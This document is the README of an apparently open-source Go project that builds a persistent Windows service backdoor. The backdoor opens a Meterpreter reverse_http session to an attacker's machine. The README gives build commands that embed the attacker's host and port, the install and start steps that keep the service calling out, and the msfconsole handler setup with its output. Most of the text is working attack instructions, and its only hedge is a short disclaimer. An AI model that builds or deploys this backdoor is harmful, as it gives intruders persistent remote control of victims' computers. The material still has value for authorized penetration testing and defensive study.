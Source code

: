 ## Powershell Reverse Http

> Note: Use this program at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization

> Meterpreter-like backdoors are a pretty common attack vector and most decent antiviruses detect this behavior as a virus.

A simple windows service running on background that connects with a meterpreter session via http.

### Usage
First, you need [go](https://golang.org/dl/) for build the binary (duh!) and [metasploit-framework](https://github.com/rapid7/metasploit-framework) to accept the reverse connection:

```
git clone https://github.com/mauri870/powershell-reverse-http.git
cd powershell-reverse-http
go get golang.org/x/sys/windows
env GOOS=windows go build -ldflags "-X main.LHOST=10.10.10.2 -X main.LPORT=3000" -o powershell-reverse.exe
```

Change the LPORT and LHOST to match your metasploit handler

## Usage
```
powershell-reverse.exe
no command specified

usage: powershell-reverse.exe <command>
       where <command> is one of
       install, remove, debug, start, stop, restart, pause or continue.
```

After install and start, the service is always up and trying to connect on host and port specified on `exploit.go`

On the attacker's machine:

```
./msfconsole --quiet
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST YOUR_IP_ADDRESS_HERE
LHOST => YOUR_IP_ADDRESS_HERE
msf exploit(handler) > set LPORT YOUR_PORT_TO_AWAIT_CONNECTION_HERE
LPORT => YOUR_PORT_TO_AWAIT_CONNECTION_HERE
msf exploit(handler) > exploit

[*] Started HTTP reverse handler on http://LHOST:LPORT
[*] Starting the payload handler... 
```
